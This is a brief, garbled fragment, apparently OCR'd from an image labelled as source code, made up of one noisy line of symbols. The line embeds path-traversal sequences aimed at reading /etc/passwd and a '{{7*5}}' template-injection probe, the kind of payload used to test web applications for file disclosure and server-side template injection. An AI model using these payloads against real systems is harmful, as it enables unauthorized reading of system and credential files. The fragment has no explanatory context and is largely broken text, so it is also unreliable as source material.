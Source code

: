 $-_-$-)$---_____---|NotHappy|$-(_)-$/...//..//..//../..//..//../..//..//..//etc/passwd${{$7*5$}}$../$../$../$../$../$/etc$/passwd$
